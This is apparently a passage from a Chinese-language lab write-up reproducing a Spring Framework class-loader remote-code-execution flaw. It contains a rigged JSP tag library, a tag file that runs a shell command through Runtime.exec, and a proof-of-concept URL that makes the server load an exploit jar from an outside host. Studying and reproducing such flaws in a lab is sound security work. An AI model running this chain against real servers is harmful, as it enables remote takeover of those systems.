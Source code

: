 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<taglib xmlns="http://java.sun.com/xml/ns/j2ee"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-jsptaglibrary_2_0.xsd" version="2.0">
    <description>Spring Framework JSP Form Tag Library</description>
    <tlib-version>3.0</tlib-version>
    <short-name>form</short-name>
    <uri>http://www.springframework.org/tags/form</uri>
    <tag-file>
        <name>input</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
    <tag-file>
        <name>form</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
</taglib>
```

```jsp
<%@ tag dynamic-attributes="dynattrs" %>
<%
    java.lang.Runtime.getRuntime().exec("touch /tmp/success");
%>
```



环境启动后，直接携带POC访问 [http://127.0.0.1:8080/test?class.classLoader.URLs[0]=jar:http://ip:8000/sp-exp.jar!/](http://127.0.0.1:8080/test?class.classLoader.URLs[0]=jar:http://ip:8000/sp-exp.jar!/)，如果在此之前访问了 http://127.0.0.1:8080/test 将不会触发后续流程。

![image-20220721224310413](README/image-20220721224310413.png)



如上环境，Controller：

![image-20220721231524668](README/image-20220721231524668.png)
